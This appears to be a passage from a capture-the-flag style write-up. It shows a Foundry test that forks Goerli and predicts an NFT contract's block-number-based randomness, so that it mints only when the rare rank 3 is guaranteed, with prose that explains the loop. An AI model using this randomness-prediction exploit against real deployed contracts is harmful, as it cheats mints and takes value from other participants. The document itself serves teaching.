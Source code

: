 ```js

            // ---- hacking time ----
            uint256 jadu = uint256(
                keccak256(
                    abi.encode(mintedId + 1, address(hacker), block.number)
                )
            );
            if (jadu % 100 > 90) {
                //console.log(mintedId);
                //console.log(address(hacker));
                //console.log(block.number);
                //console.log(jadu);

                nft.mint{value: 1 ether}();
                console.log("Minted ID: ", nft.id());
                console.log("Minted Rank: ", nft.tokens(nft.id()));
                break;
            }

            currentBlockNum++;
        }

        // get rank from `mapping(tokenId => rank)`
        // (, bytes memory ret) = nft.call(
        //     abi.encodeWithSignature("tokens(uint256)", mintedId)
        // );
        // uint mintedRank = uint(bytes32(ret));
        mintedId = nft.id();
        uint mintedRank = nft.tokens(mintedId);

        assertEq(mintedRank, 3, "not Superior(rank != 3)");
    }
}
```

- We have our imports as usual. I'm importing the `INFT` interface as well. Then in the Test contract we are setting up the interface instance & hacker account. First we are forking `goerli` so that we can work locally with out api. Then we are loading the contract from the address like this `nft = INFT(0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC);`. Our goal is to mint the NFT within 100 blocks. So in the `test()` we have a `for` loop to check so. Now as I mentioned to mint type `3` we need the ans to be `>` 90. We can literally check each iteration to see the result of the hash. 
- We are taking a variable of type uint256 `jadu` & just copy pasting the check expect I'm using `abi.encode`, why? That's because `abi.encodePacked` does't add any padding & if 2 dynamic data types are together then it can lead to `hash collision` to high probability the original contract haven't used this. Moving on we are checking if the last 2 digits of the `jadu` var is `>` or not. Something `%` 100 == `last 2 digits`

![](/assets/p-nft1.png)

- If so then only we are going to mint because as we already know the outcome so know we are going to mint type `3` NFT. The rest is for debugging purpose. The `assert` statement is checking if the type is `3` or not. So let's run it.
- Command:
```py
forge test --match-path test/hack.t.sol -vvv
```
